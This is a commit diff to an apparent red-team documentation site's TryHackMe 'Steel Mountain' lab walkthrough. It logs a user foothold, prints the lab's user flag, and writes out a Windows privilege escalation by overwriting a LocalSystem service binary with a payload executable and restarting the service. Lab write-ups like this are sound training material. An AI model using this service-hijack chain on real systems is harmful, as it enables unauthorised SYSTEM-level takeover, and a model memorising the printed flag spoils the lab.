

Before and after one commit to DeSecurity/Redteam-Hermes, an MkDocs documentation site: the page built from docs/walkthroughs/THM/steel-mountain-live.md, in a window 1280 px wide and 900 px high, scrolled down 3571 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4217 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
THM Steel Mountain: document stable bill foothold and validated service-binary privesc path

```diff
--- a/docs/walkthroughs/THM/steel-mountain-live.md
+++ b/docs/walkthroughs/THM/steel-mountain-live.md
@@ -1,6 +1,6 @@
 # Steel Mountain (THM) — Walkthrough
 
-Status: In Progress (initial access repeatedly confirmed; privesc to SYSTEM in progress)
+Status: In Progress (stable user foothold achieved; service-binary privesc path validated; SYSTEM callback capture still pending)
 Target: 10.146.141.173
 Scope: Authorized TryHackMe lab target only
 
@@ -149,8 +149,14 @@
 ## Current progress snapshot
 - Recon validated: 80 + 8080.
 - HFS 2.3 confirmed.
-- Multiple successful meterpreter footholds as `STEELMOUNTAIN\bill` observed.
-- Active work: deterministic privesc chain to SYSTEM with proof output.
+- Stable command-shell foothold as `STEELMOUNTAIN\\bill` re-established with user proof:
+  - `whoami` -> `steelmountain\\bill`
+  - `type C:\\Users\\bill\\Desktop\\user.txt` -> `b04763b6fcf51fcd7c13abc7db4fd365`
+- PrivEsc branch validated (service-binary replacement):
+  - `sc qc AdvancedSystemCareService9` shows `SERVICE_START_NAME : LocalSystem`
+  - `copy /Y C:\\Users\\bill\\ascrev.exe "C:\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe"` succeeded (`1 file(s) copied.`)
+  - Service restart commands issued (`sc stop/start AdvancedSystemCareService9`).
+- Remaining gap: capture reliable SYSTEM callback and root proof output in same run.
 
 ## Next update condition
 This walkthrough will be updated with:
```
